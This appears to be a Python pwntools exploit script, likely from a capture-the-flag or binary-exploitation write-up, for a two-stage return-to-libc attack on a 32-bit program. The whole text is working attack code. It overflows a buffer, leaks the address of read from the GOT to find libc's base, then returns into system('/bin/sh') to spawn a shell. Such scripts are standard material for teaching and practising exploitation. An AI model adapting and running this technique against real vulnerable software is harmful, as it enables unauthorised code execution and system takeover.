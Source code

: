     def exploit():

    	# pop_three_ret = 0x08048689
    	# pop_one_ret = 0x080483d9
    	# read_plt = exe.plt['read']
    	# read_got = exe.got['read']
    	# puts_plt = exe.plt['puts']
    	# write_plt = exe.plt['write']
    	# main = exe.sym['main']

    	# Stage 1: Leak libc address

    	# write(1,read@got,0x40)
    	pl = b'A' * 0x48
    	pl += p32(exe.plt.write)# main saved rip has been overwrited
    	pl += p32(exe.sym.main) # ret address
    	pl += p32(0x1)          # arg 1
    	pl += p32(exe.got.read) # arg 2
    	pl += p32(0x40)         # arg 3

    	s(pl)

    	ru(b'A'*0x40)
    	leak_libc = u32(rnb(4))
    	libc.address = leak_libc - libc.sym.read
    	slog("Libc leak",leak_libc)
    	slog("Libc base", libc.address)
    	slog("System", libc.sym.system)
    	slog("/bin/sh", next(libc.search(b'/bin/sh')))
    	sleep(1)

    	# Stage 2: Get shell

    	pl2 = b'B' * 0x48
    	pl2 += p32(libc.sym.system)
    	pl2 += b'C' * 0x4                          # ret address
    	pl2 += p32(next(libc.search(b'/bin/sh')))  # arg 1
    	s(pl2)

    	interactive()

    if __name__ == '__main__':
        exploit()
    ```
